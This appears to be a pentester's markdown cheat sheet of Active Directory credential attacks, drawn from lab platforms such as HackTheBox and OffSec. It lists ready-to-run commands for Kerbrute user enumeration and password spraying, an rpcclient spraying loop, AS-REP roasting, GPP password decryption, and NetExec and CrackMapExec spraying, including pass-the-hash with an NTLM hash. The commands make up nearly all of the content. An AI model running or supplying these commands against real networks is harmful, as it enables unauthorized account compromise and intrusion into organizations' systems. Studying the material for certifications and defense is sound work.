 ## Kerbrute
#### check if usernames are valid:
```bash
/opt/kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users.txt
```
- reformat with vim command `:%s/^.*VALID USERNAME:\s*\(\w\+\)@hutch\.offsec.*$/\1/`
- returns weird hash, use `GetNPUsers.py` instead to get hash
#### Spray valid users with password Welcome1:
```bash
/opt/kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

---
## RPC
#### Spray valid users with password Welcome1:
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

---
## Kerberos, port 88
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>
```

#### as-rep roast
```bash
GetNPUsers.py vulnnet-rst.local/ -no-pass -usersfile users.txt
```

decrypting group policy passwords
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

---
## NetExec
#### Try local authentication
```bash
nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

#### try usernames as passwords:
```bash
nxc smb 10.129.231.149 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```

try lowercase usernames as passwords:
- `cp users.txt users_lowercase.txt`
- vim command to convert all letters to lowercase
	- `:%s/[A-Z]/\L&/g`
```bash
nxc smb 10.129.42.194 -u users.txt -p users_lowercase.txt  --no-bruteforce --continue-on-success
```

---
## CrackMapExec
```bash
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```
#### Filter for successes
```bash
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```